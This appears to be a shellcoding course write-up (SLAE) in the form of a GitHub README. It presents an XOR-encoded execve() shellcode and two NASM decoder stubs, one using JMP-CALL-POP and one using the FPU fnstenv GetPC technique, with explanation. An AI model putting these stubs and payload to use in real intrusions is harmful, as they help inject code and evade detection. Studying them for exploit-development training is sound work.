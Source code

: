 # SLAE-FPU_Instructions_Rewrite
Using FPU instructions rewriting the XOR decoder assembly in SLAE course

The orginal execve() shellcode that's been XOR encoded with 0xAA value
---

```
0x9b,0x6a,0xfa,0xc2,0x85,0x85,0xd9,0xc2,0xc2,0x85,0xc8,0xc3,0xc4,0x23,0x49,0xfa,0x23,0x48,0xf9,0x23,0x4b,0x1a,0xa1,0x67,0x2a
```

The XOR decoder nasm 
---
```
; Filename: xor-decoder.nasm
global _start			

section .text
_start:

	jmp short call_decoder

decoder:
	pop esi
	xor ecx, ecx
	mov cl, 25


decode:
	xor byte [esi], 0xAA
	inc esi
	loop decode

	jmp short Shellcode



call_decoder:

	call decoder
	Shellcode: db 0x9b,0x6a,0xfa,0xc2,0x85,0x85,0xd9,0xc2,0xc2,0x85,0xc8,0xc3,0xc4,0x23,0x49,0xfa,0x23,0x48,0xf9,0x23,0x4b,0x1a,0xa1,0x67,0x2a
```
This XOR decoder using JMP-CALL-POP technique to get the address of the shellcode and decoding with 0xAA.

Rewriting this with FPU instructions
---
```
; Filename: fpu-xor-decoder.nasm

global _start			

section .text
_start:
	
	xor ecx, ecx
	mov cl, 25
	fldpi
	fnstenv [esp-0xc]
	pop esi

decode:

	xor byte [esi+0x10], 0xAA
	inc esi
	loop decode
	
	jmp short Encoded

Shellcode:
	Encoded: db 0x9b,0x6a,0xfa,0xc2,0x85,0x85,0xd9,0xc2,0xc2,0x85,0xc8,0xc3,0xc4,0x23,0x49,0xfa,0x23,0x48,0xf9,0x23,0x4b,0x1a,0xa1,0x67,0x2a
```
FPU Instructions:
- fnstenv will store the address of last FPU instructions onto the destination

In our case fnstenv will store the environments at esp-0xc, which will luckily allow us to get the instruction pointer at address of esp after fnstenv instruction.

Refer to: 
![](./FPU_State_Image.png)
According to Intel FPU state image in momery, the instruction pointer offset is at the position of third double word. 
pop esi will get the address of fldpi

Figuring out the number of byte from fldpi to Encoded shellcode will be our last step. 


